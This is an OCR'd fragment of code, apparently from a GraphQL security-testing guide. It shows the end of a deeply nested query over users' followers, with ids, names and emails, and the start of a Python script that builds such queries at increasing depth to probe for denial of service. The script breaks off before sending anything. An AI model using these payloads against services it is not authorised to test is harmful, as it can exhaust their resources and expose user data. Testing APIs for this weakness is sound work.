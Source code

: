                        edges {
                         node {
                           followers(first: 100) {
                             edges {
                               node {
                                 id
                                 name
                                 email
                               }
                             }
                           }
                         }
                       }
                     }
                   }
                 }
               }
             }
           }
         }
       }
       ```
       - Python script for nested query testing:
       ```python
       import requests
       import time
       
       def test_nested_query_dos(url, max_depth=5):
           headers = {"Content-Type": "application/json"}
           
           for depth in range(1, max_depth + 1):
               # Create nested query of specified depth
               inner_query = "{ id name email }"
               query = inner_query
               
               for i in range(depth):
                   query = f"""
                   followers(first: 100) {{
                     edges {{
                       node {{
                         {query}
                       }}
                     }}
                   }}
                   """
               
               full_query = f"""
               {{
                 users(first: 100) {{
                   edges {{
                     node {{
                       {query}
                     }}
                   }}
                 }}
               }}
               """
               